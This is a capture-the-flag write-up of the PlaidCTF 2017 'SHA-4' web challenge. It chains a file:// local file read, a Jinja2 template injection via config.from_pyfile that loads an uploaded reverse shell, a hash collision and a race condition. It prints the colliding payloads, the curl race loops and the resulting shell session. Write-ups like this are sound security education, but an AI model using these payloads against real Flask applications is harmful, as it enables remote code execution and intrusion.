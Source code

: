 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
category: writeups
authors: [thezero, jbz]
tags: plaidctf-2017 web
---
```


## SHA-4
Web - 300 Points


### Writeup

This challenge provided two forms, one which allowed to upload fomments and a textarea which would parse an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once We got file-reading access, by getting the system version from `file:///etc/issue` and getting the cmdline from `file:///proc/self/cmdline` we found the directory of the python webapp: `/var/www/sha4`.

By guessing we found out that the directory contained those 2 files:
[server.py]({{ site.url }}/assets/PlaidCTF2017/sha4_server.py)
[sha4.py]({{ site.url }}/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` check if our comments contains chars not whitelisted in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do, let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - asn1 ber decode the input
 - write the decoded input to the file
 - check if it contain unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp use Flask, so we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hash the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the render_template function

Uploading is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second point is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seem coded to create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two asn1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the is_unsafe() check on the safe payload


#### Collision!

We find out that finding a collision was pretty easy.
For every char there was a colliding one for each position in the DES key (see sha4.py file).

So we calculate each colliding char in each position for out 3 forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

Then we wrote this [script]({{ site.url }}/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. take our "bad" payload, for each "bad" character replace it with it's relative collision
 2. set dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well. 
 3. encode both "good" and "bad" payload as ASN.1
 4. hash them!

Here the 2 payload, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests, as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command is each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:  

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

